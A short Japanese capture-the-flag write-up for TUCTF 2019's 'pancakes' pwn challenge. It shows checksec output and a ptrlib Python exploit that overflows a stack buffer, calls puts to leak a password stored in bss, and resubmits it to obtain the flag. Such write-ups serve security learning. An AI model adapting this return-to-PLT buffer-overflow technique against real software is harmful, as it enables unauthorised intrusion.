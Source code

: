 # [pwn 493pts] pancakes - TUCTF 2019
NX以外無効です。
```
$ checksec -f pancakes
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   76 Symbols     No       0               6       pancakes
```
password.txtから読んだパスワードと入力が一致していればflag.txtの内容を出力してくれます。パスワード入力にBOFがあるのですが、フラグをopenするところとread&putsするところの間にmemcmpがあるので直接出力部分に飛ばすことはできません。パスワードはbssセクションに取られているのでそれを出力して再度mainに戻りましょう。
```python
from ptrlib import *

elf = ELF("./pancakes")
sock = Process("./pancakes")
#sock = Socket("chal.tuctf.com", 30503)

payload = b'A' * 0x2c
payload += p32(elf.plt('puts'))
payload += p32(elf.symbol('pwnme'))
payload += p32(elf.symbol('password'))
sock.sendafter("> ", payload)
sock.recvline()
password = sock.recvline() + b'\n'
password += b'\x00' * (0x1a - len(password))

sock.sendafter("> ", password)

sock.interactive()
```

# 感想
簡単ですね。